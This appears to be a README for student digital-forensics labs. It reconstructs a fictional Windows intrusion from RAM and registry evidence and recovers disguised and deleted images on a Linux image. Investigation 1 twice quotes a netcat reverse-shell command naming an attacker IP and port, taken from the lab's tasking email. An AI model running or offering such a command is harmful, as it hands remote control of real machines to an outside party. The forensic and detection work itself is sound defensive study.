










# Endpoint Forensics: Windows Post-Mortem & Linux File Recovery

Two coursework investigations in endpoint forensics: a Windows post-mortem analysis combining RAM and registry-hive examination to reconstruct an intrusion, and a Linux file-recovery exercise using camouflage detection, hidden-file discovery, and file carving.

> **Scope.** Both investigations were performed against instructor-provided disk/memory images for a DFIR coursework unit, not a live incident. Subject and threat-actor identities below (`Uncle Dave`, `John Doe`) are the lab's own fictional scenario labels, not real persons.

## Tools

| Tool | Purpose |
|---|---|
| Volatility 3 | Memory forensics against the Windows RAM capture |
| RegRipper *(inferred — see TODO in [`scans/registry-hive-analysis.md`](./scans/registry-hive-analysis.md))* | Registry hive (`SYSTEM`, `SOFTWARE`, `SAM`, `NTUSER.DAT`) parsing |
| PowerShell `Select-String` | Searching parsed registry text dumps |
| FTK Imager | File listing / recovery from the Windows image (Instructions.pdf, target image files) |
| `find`, `file`, `grep`, `md5sum`, `cat` | Camouflaged and hidden file discovery on the Linux image |
| `scalpel`, `hexdump`, `dd` | File carving of deleted/merged JPEGs |
| `exiv2` | Exif metadata extraction from recovered images |

## Artifacts in this directory

| Path | Contents |
|---|---|
| [`scans/volatility-ram-analysis.md`](./scans/volatility-ram-analysis.md) | Volatility 3 command log and RAM-analysis findings |
| [`scans/registry-hive-analysis.md`](./scans/registry-hive-analysis.md) | Registry hive query log (persistence key, timestamps, accounts) |
| [`scans/linux-file-recovery.md`](./scans/linux-file-recovery.md) | Camouflage/hidden-file discovery, carving, and Exif extraction command log |
| `Images/` | Screenshots supporting each finding below (see [`Images/README.md`](./Images/README.md) for the full index) |

---

## Investigation 1 — Windows Post-Mortem & Reverse Shell Analysis

### Scenario

A Windows 10 host (`WINCLIENTTGT`) belonging to a subject referred to in the lab as "John Doe" was analyzed via a RAM capture and its registry hives, following instructions received from a threat actor referred to as "Uncle Dave."

### Methodology

Full command logs: [`scans/volatility-ram-analysis.md`](./scans/volatility-ram-analysis.md) and [`scans/registry-hive-analysis.md`](./scans/registry-hive-analysis.md).

1. **Machine identification** — `windows.info` against the memory capture confirmed a Windows 10 Enterprise, 2-CPU host with a system clock reading `2024-02-21 18:34:33`.
2. **Process reconstruction** — a process-tree plugin surfaced a `cmd.exe` → `ncat.exe` → `cmd.exe` chain created between `17:52:23` and `18:01:19` on `2024-02-21`.
3. **Registry hive parsing** — `SYSTEM`/`SOFTWARE` hive text dumps were searched for computer name, time zone, autostart keys, OS version, and local accounts.
4. **NTUSER.DAT analysis** — `RecentDocs` key parsed into a timeline to establish what the subject had recently accessed.
5. **Artifact recovery via FTK Imager** — recovered `Instructions.pdf` (the tasking email) and a set of target image files from the subject's desktop.

### Findings

**Reverse shell.** A `cmd.exe (PID 6888)` → `ncat.exe (PID 1772)` → `cmd.exe (PID 8240)` process chain was identified: the parent `cmd.exe` (6888) was spawned `17:52:23`, its child `ncat.exe` (1772) at `18:01:18`, and `ncat.exe`'s own child `cmd.exe` (8240) one second later at `18:01:19` — consistent with an `ncat -e cmd.exe` reverse-shell handoff. The recovered `Instructions.pdf` (below) instructs the subject to run `nc.exe -nv 10.11.8.212 443 -e cmd.exe`, which matches this process chain by IP, port, and behavior.
>
> *Correction from the source lab:* the original lab writeup misattributes PID `6888` to `ncat.exe` itself. Verified directly against the screenshot below, `6888` is the parent `cmd.exe`; the process actually named `ncat.exe` is PID `1772`. See [`scans/volatility-ram-analysis.md`](./scans/volatility-ram-analysis.md#2-process-tree--windowspstree) for the full row-by-row verification.

**Persistence.** An autostart key named `soft_run` was found under `Microsoft\Windows\CurrentVersion\Run` in the `SOFTWARE` hive.

**Anti-forensic timestamp tampering.** The `RecentDocs` timeline for three recently-accessed items (`Instructions.pdf`, the BitLocker recovery-key file, and "System and Security") all carry a last-write time of `Thu Jan 1 00:00:00 1970` — the Unix epoch — rather than a plausible real timestamp. `bdeunlock.exe`'s MUICache entry shows the same epoch value.

**BitLocker involvement.** `bdeunlock.exe` (a legitimate Microsoft BitLocker utility) was present in the MUICache, and a BitLocker recovery key (`4E3D7844-CC56-427E-89A1-DCF265F60C16`, key value `064108-538450-057409-468864-438911-291181-111815-356125`) was recovered from memory.

**Tasking / social engineering.** `Instructions.pdf`, recovered from the subject's desktop via FTK Imager, is an email from `uncledave1975@proton.me` to `j0hnd0ugh12@proton.me` instructing the subject to: create a BitLocker-secured partition, download Nmap under the pretext of "vulnerability management," install the ncat module, and run `nc.exe -nv 10.11.8.212 443 -e cmd.exe`.

**Target data.** A set of image files named `ddg-1000-elmo-zumwalt-class-destroyer-0*.jpg` were present in the subject's FTK-imaged desktop path alongside the instructions — consistent with the lab's framing of these as the data the subject was tasked with exfiltrating/protecting via BitLocker.

### Assessment

The evidence is internally consistent for a scripted intrusion: tasking email → BitLocker partition creation → Nmap/ncat installation under a cover story → reverse shell → registry persistence → anti-forensic timestamp tampering on the artifacts the subject accessed to carry it out. This is a lab-constructed scenario with a fictional subject and threat actor, not a real compromise — but the technique chain (living-off-the-land reverse shell via `ncat`, `Run`-key persistence, MACB timestamp zeroing) mirrors real post-exploitation tradecraft and is why it's included here.

### Recommendations

- Alert on outbound connections to non-standard ports (443 used for a raw reverse shell rather than TLS) combined with `-e`/`--exec`-style flags in process command lines.
- Baseline and alert on writes to `Run`/`RunOnce` autostart keys outside of known software installers.
- Treat registry/file timestamps clustered at the Unix epoch as a tamper indicator, not a data-quality artifact — cross-reference against independent time sources (event logs, network flow data) rather than trusting file metadata alone.
- Flag internal requests to install network-scanning tooling (Nmap) under vague "vulnerability management" justification for verification against an actual change/ticket record before install.

---

## Investigation 2 — Forensic Data Recovery & Camouflage Detection

### Scenario

A Linux disk image was searched for image files that a subject had allegedly disguised and deleted to avoid detection.

### Methodology

Full command log: [`scans/linux-file-recovery.md`](./scans/linux-file-recovery.md).

1. **Camouflage detection** — `find` combined with `file` inspected true file type by magic bytes regardless of extension, filtered to PNG content via `grep`.
2. **Hidden-file discovery** — `find -path "*/.*/*"` located files inside dot-prefixed (hidden) directories.
3. **File carving** — `scalpel` against the raw block device (`dev/loop0`) recovered corrupted, merged JPEG data; `hexdump` located embedded JPEG header offsets (`ff d8`); `dd` split the merged blob into five individual images.
4. **Metadata extraction** — `exiv2` was run against all recovered/discovered image files to pull Exif comments and confirm file identity via MD5.

### Findings

**Camouflaged files.** Two files carried PNG content under non-image names/extensions: `/var/log/eruces.log` and `/usr/bin/sha1337sum` (`file`-detected as PNG image data despite their extensions/names).

**Hidden flag files.** Three files inside hidden (dot-prefixed) directories were recovered and read, each containing a distinct flag value — see the hash/flag table in [`scans/linux-file-recovery.md`](./scans/linux-file-recovery.md#part-2--hidden-files-dot-directories).

**Carved images.** Five distinct JPEG/PNG images were recovered from merged, corrupted `scalpel` output by locating `ff d8` header offsets with `hexdump` and splitting with `dd`. Each carved image carries its own embedded label and hash (Image #1, #2, #4, #5 below; Image #3 corresponds to the Debian stock logo already found in Part 1, not evidentiary content).

| Image #1 | Image #2 |
|---|---|
|  |  |

| Image #4 | Image #5 |
|---|---|
|  |  |

**Metadata confirmation.** `exiv2` extracted an Exif comment from each carved image matching the label burned into the image itself, confirming carving reconstructed each file correctly. Full hash/comment table in [`scans/linux-file-recovery.md`](./scans/linux-file-recovery.md#part-4--metadata-extraction-exiv2).

### Assessment

The camouflage (extension/name mismatch) and deletion were both defeated by content-based inspection rather than trusting file metadata — the same principle as Investigation 1's Findings. Recovery was complete: all five carved images were structurally intact and Exif-labeled, with hash values matching cleanly between the carving output and the `exiv2` pass, indicating no corruption was introduced during carving.

### Recommendations

- File-type/extension-mismatch scanning (`file` + `grep`, or a YARA/hash-based equivalent at scale) should run as a routine triage step, not only when camouflage is already suspected.
- Retain raw block-device images rather than only the live filesystem when deletion/anti-forensics is suspected — carving depended on access to `dev/loop0`, not the mounted filesystem.

---

## Limitations

- Both investigations are coursework labs against instructor-provided images, not live cases; scenario identities are fictional.
- The exact `scalpel`, `hexdump`, and `dd` invocations used for carving were not recorded in the source lab document — see the TODO in [`scans/linux-file-recovery.md`](./scans/linux-file-recovery.md#part-3--deleted-carved-images-scalpel-hexdump-dd).
- The tool that produced `system.txt`/`software.txt` from the registry hives is inferred (RegRipper) from output format, not confirmed by the source document — see the TODO in [`scans/registry-hive-analysis.md`](./scans/registry-hive-analysis.md).
- The PID cited for `ncat.exe` in the original coursework writeup (`6888`) was incorrect — verified against the process-tree screenshot and corrected to `1772` throughout this README and [`scans/volatility-ram-analysis.md`](./scans/volatility-ram-analysis.md#2-process-tree--windowspstree).
